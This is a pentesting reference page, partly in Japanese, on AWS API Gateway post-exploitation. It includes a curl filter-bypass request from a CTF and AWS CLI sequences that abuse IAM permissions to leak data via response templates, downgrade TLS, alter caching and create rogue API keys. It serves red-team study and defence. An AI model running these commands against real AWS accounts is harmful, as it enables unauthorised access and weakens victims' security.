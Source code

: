 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## API Gateway

For more information check:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Access unexposed APIs

[https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) でサービス `com.amazonaws.us-east-1.execute-api` を使用してエンドポイントを作成し、アクセス可能なネットワーク（EC2マシン経由の可能性あり）でエンドポイントを公開し、すべての接続を許可するセキュリティグループを割り当てます。\
その後、EC2マシンからエンドポイントにアクセスできるようになり、以前は公開されていなかったゲートウェイAPIを呼び出すことができます。

### Bypass Request body passthrough

この技術は[**このCTFの解説**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp)で見つかりました。

[**AWSのドキュメント**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html)の`PassthroughBehavior`セクションに示されているように、デフォルトでは、**`WHEN_NO_MATCH`**の値は、リクエストの**Content-Type**ヘッダーをチェックする際に、リクエストを変換せずにバックエンドに渡します。

したがって、CTFではAPI Gatewayに統合テンプレートがあり、`Content-Type: application/json`でリクエストが送信されたときに**フラグが応答で流出するのを防いでいました**：

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

しかし、**`Content-type: text/json`**を持つリクエストを送信することで、そのフィルターを回避することができます。

最後に、API Gatewayは`Get`と`Options`のみを許可していたため、ボディにクエリを含むPOSTリクエストを送信し、ヘッダー`X-HTTP-Method-Override: GET`を使用することで、任意のdynamoDBクエリを制限なしに送信することが可能でした。

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### 使用プラン DoS

**列挙**セクションでは、**キーの使用プランを取得する方法**を見ることができます。キーを持っていて、それが**月あたりX回の使用に制限されている**場合、**それを使用してDoSを引き起こすことができます**。

**APIキー**は、**`x-api-key`**という**HTTPヘッダー**に**含める**必要があります。

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

`apigateway:UpdateGatewayResponse`および`apigateway:CreateDeployment`の権限を持つ攻撃者は、**既存のGateway Responseを変更して、機密情報を漏洩させるカスタムヘッダーやレスポンステンプレートを含めたり、悪意のあるスクリプトを実行させたりすることができます**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在的な影響**: 機密情報の漏洩、悪意のあるスクリプトの実行、またはAPIリソースへの不正アクセス。

{% hint style="info" %}
テストが必要
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

`apigateway:UpdateStage`および`apigateway:CreateDeployment`の権限を持つ攻撃者は、**既存のAPI Gatewayステージを変更してトラフィックを別のステージにリダイレクトしたり、キャッシュ設定を変更してキャッシュデータへの不正アクセスを得ることができます**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在的な影響**: キャッシュされたデータへの不正アクセス、APIトラフィックの中断または傍受。

{% hint style="info" %}
テストが必要
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

`apigateway:PutMethodResponse` および `apigateway:CreateDeployment` の権限を持つ攻撃者は、**既存のAPI Gateway REST APIメソッドのメソッドレスポンスを変更して、機密情報を漏洩させるカスタムヘッダーやレスポンステンプレートを含めたり、悪意のあるスクリプトを実行させたりすることができます**。
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**潜在的な影響**: 機密情報の漏洩、悪意のあるスクリプトの実行、またはAPIリソースへの不正アクセス。

{% hint style="info" %}
テストが必要
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

`apigateway:UpdateRestApi`および`apigateway:CreateDeployment`の権限を持つ攻撃者は、**API Gateway REST APIの設定を変更してログを無効にしたり、最小TLSバージョンを変更したりすることができ、APIのセキュリティを弱体化させる可能性があります**。
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**潜在的な影響**: APIのセキュリティが弱まり、未承認のアクセスを許可したり、機密情報を露出させる可能性があります。

{% hint style="info" %}
テストが必要
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

`apigateway:CreateApiKey`、`apigateway:UpdateApiKey`、`apigateway:CreateUsagePlan`、および`apigateway:CreateUsagePlanKey`の権限を持つ攻撃者は、**新しいAPIキーを作成し、それらを使用プランに関連付け、これらのキーを使用してAPIへの未承認のアクセスを行うことができます**。
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**潜在的影響**: APIリソースへの不正アクセス、セキュリティコントロールのバイパス。

{% hint style="info" %}
テストが必要
{% endhint %}

{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}

